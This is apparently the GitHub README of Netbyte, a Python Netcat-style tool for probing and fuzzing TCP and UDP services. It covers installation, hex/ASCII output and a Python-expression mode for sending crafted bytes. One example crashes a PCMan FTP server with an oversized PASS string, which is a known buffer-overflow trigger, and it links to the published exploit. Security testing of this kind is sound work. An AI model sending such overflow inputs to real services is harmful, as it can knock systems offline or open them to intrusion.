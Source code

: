 # Netbyte

![Version 1.0](http://img.shields.io/badge/version-v1.0-orange.svg)
![Python 2.7](http://img.shields.io/badge/python-2.7-blue.svg)
![MIT License](http://img.shields.io/badge/license-MIT%20License-blue.svg)
[![sc0tfree Twitter](http://img.shields.io/twitter/url/http/shields.io.svg?style=social&label=Follow)](https://twitter.com/sc0tfree)

Netbyte is a Netcat-style tool that facilitates manual probing, fuzzing and exploitation of TCP and UDP services.
It is lightweight, fully interactive and allows for input as well as output in both hexadecimal and ASCII.

## Why

When testing proprietary or custom-written services, I’ve frequently been disappointed with my toolkit's 
ease of usability to reverse engineer or fuzz these protocols.

I have traditionally used Netcat with Wireshark and/or hexdump.
However, due to truncation issues with using hexdump (e.g.: `nc domain.com 1234 | hexdump -C`)
and Wireshark’s tedious process, I decided to create Netbyte as quick and easy alternative when opening unknown ports.

Additionally, I wanted to be able to send hex back to the server and begin testing edge cases using fuzzing.
To address this, I integrated Python string evaluation capabilities inside of Netbyte, allowing the user to send 
strings of crafted bytes to the server.

## Install

Clone the git:
```
git clone https://github.com/sc0tfree/netbyte.git
```
Enter the directory:
```
cd netbyte
```
Run setup.py script with 'install':
```
python setup.py install
```

## Basic Usage

<pre><code>$ <span style="font-weight: bold">netbyte example.com 12345</span>
<span style="color: green">Connection Established</span>
<span style="color: magenta">������!��'</span>
<span style="color: blue">FF FB 01 FF FB 03 FF FD 21(!) FF FD 27(')</span>


<span style="color: magenta">Enter your user id:</span>
<span style="color: blue">0D 0A(\n)
0D 0A(\n)
45(E) 6E(n) 74(t) 65(e) 72(r) 20 79(y) 6F(o) 75(u) 72(r) 20 75(u) 73(s) 65(e) 72(r) 20 69(i) 64(d) 3A(:) 20 07</span>
<span style="font-weight: bold">admin</span>
<span style="color: magenta">user password:</span>
<span style="color: blue">61(a) 64(d) 6D(m) 69(i) 6E(n) 0D 0A(\n)
75(u) 73(s) 65(e) 72(r) 20 70(p) 61(a) 73(s) 73(s) 77(w) 6F(o) 72(r) 64(d) 3A(:) 20</span>
<span style="font-weight: bold">admin</span>

<span style="color: magenta">Invalid user or password</span>

<span style="color: green">Connection closed</span>
</code></pre>

You can also pipe input into netbyte:

<pre><code>$ <span style="font-weight: bold">echo &quot;GET /&quot; | netbyte test.com 80</span>
<span style="color: green">Connection Established</span>
<span style="color: magenta">&lt;html&gt;
&lt;head&gt;&lt;title&gt;302 Found&lt;/title&gt;&lt;/head&gt;
&lt;body bgcolor=&quot;white&quot;&gt;
&lt;center&gt;&lt;h1&gt;302 Found&lt;/h1&gt;&lt;/center&gt;
&lt;hr&gt;&lt;center&gt;nginx/1.13.4&lt;/center&gt;
&lt;/body&gt;
&lt;/html&gt;</span>

<span style="color: blue">3C(&lt;) 68(h) 74(t) 6D(m) 6C(l) 3E(&gt;) 0D 0A(\n)
3C(&lt;) 68(h) 65(e) 61(a) 64(d) 3E(&gt;) 3C(&lt;) 74(t) 69(i) 74(t) 6C(l) 65(e) 3E(&gt;) 33(3) 30(0) 32(2) 20 46(F) 6F(o) 75(u) 6E(n) 64(d) 3C(&lt;) 2F(/) 74(t) 69(i) 74(t) 6C(l) 65(e) 3E(&gt;) 3C(&lt;) 2F(/) 68(h) 65(e) 61(a) 64(d) 3E(&gt;) 0D 0A(\n)
3C(&lt;) 62(b) 6F(o) 64(d) 79(y) 20 62(b) 67(g) 63(c) 6F(o) 6C(l) 6F(o) 72(r) 3D(=) 22 77(w) 68(h) 69(i) 74(t) 65(e) 22 3E(&gt;) 0D 0A(\n)
3C(&lt;) 63(c) 65(e) 6E(n) 74(t) 65(e) 72(r) 3E(&gt;) 3C(&lt;) 68(h) 31(1) 3E(&gt;) 33(3) 30(0) 32(2) 20 46(F) 6F(o) 75(u) 6E(n) 64(d) 3C(&lt;) 2F(/) 68(h) 31(1) 3E(&gt;) 3C(&lt;) 2F(/) 63(c) 65(e) 6E(n) 74(t) 65(e) 72(r) 3E(&gt;) 0D 0A(\n)
3C(&lt;) 68(h) 72(r) 3E(&gt;) 3C(&lt;) 63(c) 65(e) 6E(n) 74(t) 65(e) 72(r) 3E(&gt;) 6E(n) 67(g) 69(i) 6E(n) 78(x) 2F(/) 31(1) 2E 31(1) 33(3) 2E 34(4) 3C(&lt;) 2F(/) 63(c) 65(e) 6E(n) 74(t) 65(e) 72(r) 3E(&gt;) 0D 0A(\n)
3C(&lt;) 2F(/) 62(b) 6F(o) 64(d) 79(y) 3E(&gt;) 0D 0A(\n)
3C(&lt;) 2F(/) 68(h) 74(t) 6D(m) 6C(l) 3E(&gt;) 0D 0A(\n)</span>

<span style="color: green">Connection closed</span>
</code></pre>

## Manual Fuzzing and Exploitation

Netbyte is able to send evaluated Python expressions by using `!!` at the beginning of any input. This is useful for manual fuzzing and even exploitation.

*Note: using `!!` mode does not automatically include a newline ('\n') at the end of the sent string.*

### Newlines

To include a newline automatically at the end of an evaluated expression, use `!!!` at the beginning of any input.

### Examples:
| Expression                | Result                                |
|:--------------------------|:--------------------------------------|
| `!! "A" * 250`            | Send 250 A's                          |
| `!! "\x41" * 250`         | Send 250 A's                          |
| `!! "A" * 250 + "\n"`     | Send 250 A's and a newline ('\n')     |
| `!!! "A" * 250`           | Send 250 A's and a newline ('\n')     |
| `!!! "abc" * 2 + "def"`   | Send 'abcabcdef' and a newline ('\n') |


Let's see it in action by crashing a PCMan FTP Server:

<pre><code>$ <span style="font-weight: bold">netbyte pcmanserver.com 21</span>
<span style="color: green">Connection Established</span>
<span style="color: magenta">220 PCMan's FTP Server 2.0 Ready.</span>

<span style="color: blue">32(2) 32(2) 30(0) 20 50(P) 43(C) 4D(M) 61(a) 6E(n) 27(') 73(s) 20 46(F) 54(T) 50(P) 20 53(S) 65(e) 72(r) 76(v) 65(e) 72(r) 20 32(2) 2E 30(0) 20 52(R) 65(e) 61(a) 64(d) 79(y) 2E 0D 0A(\n)</span>

<span style="font-weight: bold">USER anonymous</span>
<span style="color: magenta">331 User name okay, need password.</span>

<span style="color: blue">33(3) 33(3) 31(1) 20 55(U) 73(s) 65(e) 72(r) 20 6E(n) 61(a) 6D(m) 65(e) 20 6F(o) 6B(k) 61(a) 79(y) 2C(,) 20 6E(n) 65(e) 65(e) 64(d) 20 70(p) 61(a) 73(s) 73(s) 77(w) 6F(o) 72(r) 64(d) 2E 0D 0A(\n)</span>

<span style="font-weight: bold">!!! &quot;PASS &quot; + &quot;A&quot; * 6400</span>
<span style="color: magenta">230 User logged in</span>

<span style="color: blue">32(2) 33(3) 30(0) 20 55(U) 73(s) 65(e) 72(r) 20 6C(l) 6F(o) 67(g) 67(g) 65(e) 64(d) 20 69(i) 6E(n) 0D 0A(\n)</span>

</code></pre>

</body></html>
*The exploit for this buffer overflow can be found [here](https://www.exploit-db.com/exploits/27277/).*

## Test Server

Netbyte includes a built-in test server to better view its functionality.

The server has three tests:

* Echo Test - server echoes back a user-specified string
* Display Hex Test - server sends a string of random bytes with user-specified length
* Byte Count Test - server counts number of input bytes sent from client

To run the test server on default port 12345:
```
$ netbyte --testserver
```
In another terminal, connect to the test server using netbyte:
```
$ netbyte localhost 12345
```

## License and Contributions

Netbyte is under the MIT License.

Questions, comments and suggestions are always welcomed!

## Future Work

* Listen option to interact with custom-built clients
* Proper unit tests
